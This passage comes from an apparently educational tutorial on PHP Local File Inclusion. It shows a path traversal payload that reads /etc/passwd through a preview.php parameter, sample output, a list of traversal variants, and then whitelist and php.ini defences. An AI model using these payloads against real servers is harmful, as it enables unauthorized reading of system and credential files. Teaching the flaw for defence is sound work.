 For example, let's try to include the [passwd](https://en.wikipedia.org/wiki/Passwd#:~:text=The%20%2Fetc%2Fpasswd%20file%20is,identities%20that%20own%20running%20processes.) file located on /etc/passwd, We will insert the following code ../../../etc/passwd

the link goes as following ``GET https://localhost:8080/preview.php?file=../../../etc/passwd``

in another perspective, this code get executed

```php
include("../../../etc/passwd");
```

The double points (..) tells php to go back to the parent directory of the **local path**. for example, If the webpage is uploaded on **/www/page/php/preview.php** we are telling to go back to the root directort ``/`` then goes to ``etc/passwd``

If the website is vulnerable this injection will return something similar to this on the webpage **preview.php**

```bash
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
alex:x:500:500:alex:/home/alex:/bin/bash
margo:x:501:501::/home/margo:/bin/bash
...
```

As you can see, this attack is so simple. You can inject multiple **queries** until you successfully get a legit response. such as :

```
../../../etc/passwd
../../../../etc/passwd
../../../../../etc/passwd
../../../../../../etc/passwd
```

## Sanitization and protection

You can protect your server from **LFI** exploit by implementing one of the following solutions:

### **Create whitelist** 
create a whitelist of trusted files
```php
// Script example

<?php
$allowedFiles = [
    'home' => 'home.php',
    'about' => 'about.php',
    'contact' => 'contact.php',
    'help' => 'help.php'
];

$fileKey = $_GET['file'];

if (array_key_exists($fileKey, $allowedFiles)) {
    include($allowedFiles[$fileKey]);
}
?>
```
### **Disable inclusion**
This solution disable including for all files on the *php.ini* config file. this might not be very pratical but due of the high risk of **LFI** vulnerability, it's very recommended
